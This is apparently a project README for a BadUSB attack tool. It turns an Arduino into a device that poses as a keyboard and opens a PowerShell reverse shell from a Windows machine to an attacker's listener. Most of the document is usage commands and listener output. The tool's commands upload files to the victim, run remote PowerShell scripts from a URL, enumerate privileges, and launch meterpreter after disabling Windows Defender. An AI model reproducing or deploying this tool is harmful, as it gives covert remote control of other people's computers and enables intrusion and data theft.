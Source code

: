 # 0x539 Tool

This project is to connect a windows maching using an arduino to a listening server using a port and a host through TCP.
 
*Note: A video tutorial will be added on the main* [Lear Hacking](https://www.youtube.com/channel/UCGj2tNcFld-_tCZLSkFe4ww) *Youtube channel soon!*

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this you will first need to install the [Aduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repository into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-admin] [-debug] --lport LPORT --lhost LHOST --keyboard KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini pro.

optional arguments:
  -h, --help           show this help message and exit
  -admin               get admin access to powershell but it hopefully press the yes to runAs."
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip 198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)

usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, or check this videos playlist [Arduino Workshop - Chapter One - Hello World Example](https://www.youtube.com/watch?v=Bz_s3D96C5c&list=PLPK2l9Knytg5s2dk8V09thBmNl2g5pRSr&index=8).

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```
commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    meterpreter     run meterpreter default port 9090
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

### meterpreter (mp)
generate a reverse tcp exe file to default lport 9090 (you can change the lports and lhost with the httpport all together), and run it in the victim's machine after disabling Windows defender (-admin must be specified after listen-usb.py before generating the arduino c payload), which prompt you a meterpreter (wigth all preveliges).
```
mp
``` 

## Creator

* This tool was Created by [l0x539](https://0x539.co).

